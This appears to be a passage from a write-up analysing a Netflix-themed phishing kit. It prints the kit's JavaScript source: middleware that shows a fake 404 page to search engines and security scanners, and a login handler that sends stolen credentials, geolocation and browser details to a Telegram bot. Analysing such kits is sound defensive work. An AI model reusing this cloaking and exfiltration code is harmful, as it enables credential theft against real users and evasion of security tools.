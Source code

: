```js
	const clientRef = req.headers.referer || req.headers.origin;

	if (isBotUA(clientUA) || isBotIP(clientIP) || isBotRef(clientRef)) {
		return res.status(404).type('html').end(`<title>404 Not Found</title><div><h2>Not Found</h2><p>The requested URL ${req.url} was not found on this server.</p></div>`);
	}

	next();
};
```

The files `../config/botUA`, `../config/botRef`, and `../config/botIP` contain huge lists of good guys' 
- ip ranges
- user agent regex strings like `google`, `duckduckbot`, `antivirus`
- referrer regex strings like `^security`, `^safebrowsing`, `^malwarebytes`

The middleware routes any matching requests to an innocuous 404 Not Found page. 

#### `controller.js`

When the request is determined to be not a bot it is handled by the `loginPost` controller:

```js
const { sendMessageFor } = require('simple-telegram-message');
const { botToken, chatId } = require('../config/settings');

[...]

exports.loginPost = async (req, res) => {
	const { userId, password } = req.body;
	
    [...]

	const { ipAddress, Coordinates, City, Region, postalCode, Country, Time, provider, ASN } = iPDetails;

	const userAgent = req.headers['user-agent'];
	const systemLang = req.headers['accept-language'];

	const message =
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 LOGIN INFO\n` +
		`EMAIL/PHONE      : ${userId}\n` +
		`PASSWORD         : ${password}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`COORDINATES      : ${Coordinates}\n` +
		`CITY             : ${City}\n` +
		`STATE            : ${Region}\n` +
		`ZIP CODE         : ${postalCode}\n` +
		`COUNTRY          : ${Country}\n` +
		`TIME             : ${Time}\n` +
		`ISP              : ${provider} ${ASN}\n\n` +
		`💻 SYSTEM INFO\n` +
		`USER AGENT       : ${userAgent}\n` +
		`SYSTEM LANGUAGE  : ${systemLang}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/2');
};
```